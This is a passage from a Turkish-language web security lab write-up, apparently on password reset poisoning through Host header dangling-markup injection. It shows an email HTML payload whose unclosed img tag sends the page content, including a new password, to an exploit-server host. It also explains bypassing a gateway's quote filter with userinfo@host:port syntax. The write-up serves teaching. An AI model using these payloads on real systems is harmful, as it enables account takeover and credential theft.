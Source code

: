 Dolayısıyla buradaki yapımız şu hale gelecektir;

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://'></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```

Artık burada kullandığımız payload değerimizi lab uygulamasında da deneyebiliriz. Host header’ı için yeni değerimiz buradaki payload olacak şekilde düzenleme yapacağız. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2018.png)

Ancak bu işlemi yapmak istediğimizde gateway buna izin vermemektedir. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2019.png)

Bu kısımda hatanın neden oluştuğunu ve kaynağını bulmamız gerekmektedir. Dolayısıyla Host alanında verdiğimiz değerde izin verilmeyen karakteri bulmalıyız. Yaptığımız incelemeler ve denemeler neticesinde Host alanı içerisinde tek tırnak karakterine izin verilmediğini görüyoruz. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2020.png)

Burada URL Parser’ların nasıl çalıştığını bilip buna göre hareket etmemiz gerekmektedir. Ön taraftaki gateway yani reverse proxy bu Host alanını parse etmektedir. Daha sonra da application bu Host alanını kullanmaktadır. Burada şu şekilde bir domain tanımı yapabilirsiniz; bu da doğrulanmış (valid) bir domain tanımlamasıdır. 

```html
username:password@mdisec.com:80
```

Örneğin Host alanına aşağıdaki gibi bir değer koyduğumuzda `tek tırnak işareti (’)` ile ilgili bir sorun oluşmamaktadır. Burada URL Parser 80 portundan önceki kısmı doğrular ve web uygulaması ise verdiğimiz Host alanının tamamını kullanır. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2021.png)

Bu isteği gönderdikten sonra `exploit server` üzerinden `e-mail client`’ını kontrol edecek olursak istediğimiz sonucun buraya geldiğini görebiliriz. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2022.png)

Dolayısıyla bu kısma payload’ımızı yerleştirip request gönderiyoruz. Domain olarak da exploit server üzerinde bize verilen domain adresini girmemiz gerekmektedir. Nihai host alanı değerimiz de bu şekilde olacaktır;
